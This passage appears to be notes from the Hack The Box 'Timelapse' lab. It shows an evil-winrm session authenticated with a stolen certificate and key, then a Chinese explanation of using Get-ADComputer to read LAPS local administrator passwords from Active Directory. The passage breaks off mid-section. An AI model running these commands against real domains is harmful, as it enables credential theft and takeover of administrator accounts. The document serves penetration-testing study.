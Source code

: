 ![[image.png]]

  
➜ Timelapse evil-winrm -S -c certificate.pem -k private.key -i dc01.timelapse.htb -u legacyy  
/usr/local/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems  
/usr/local/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems

  

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: [https://github.com/Hackplayers/evil-winrm#Remote-path-completion](https://github.com/Hackplayers/evil-winrm#Remote-path-completion)

Warning: SSL enabled

Info: Establishing connection to remote endpoint_Evil-WinRM_ PS C:\Users\legacyy\Documents>

  

好的 👍 我用中文给你解释一下为什么当用户属于 `**LAPS_Readers**` 组时，我们要用

```PowerShell
Get-ADComputer -Filter * -Property ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd

```

---

### 🔹 什么是 LAPS

- **LAPS（Local Administrator Password Solution，本地管理员密码解决方案）** 是微软提供的一种机制。
- 它会自动为域内的每台计算机生成一个 **唯一的随机强密码**，用来保护本地 `Administrator` 账户。
- 这些密码不会存在本机文件里，而是保存到 **Active Directory** 里。

---

### 🔹 密码保存在哪里

- 在 AD 里，每台计算机对象都会有两个重要属性：
    - `**ms-Mcs-AdmPwd**` → 直接保存当前的本地管理员密码（明文）。
    - `**ms-Mcs-AdmPwdExpirationTime**` → 保存密码的过期时间。

---

### 🔹 谁能读取这些密码

- 默认情况下，只有 **Domain Admins（域管理员）** 才能读取 `ms-Mcs-AdmPwd`。
- 但是很多企业会把读取权限授予某个组，比如 `**LAPS_Readers**`。
- 如果某个用户属于 `LAPS_Readers` 组，那么他就可以直接在 AD 里读取所有机器的本地管理员密码。

---

### 🔹 为什么用这条命令
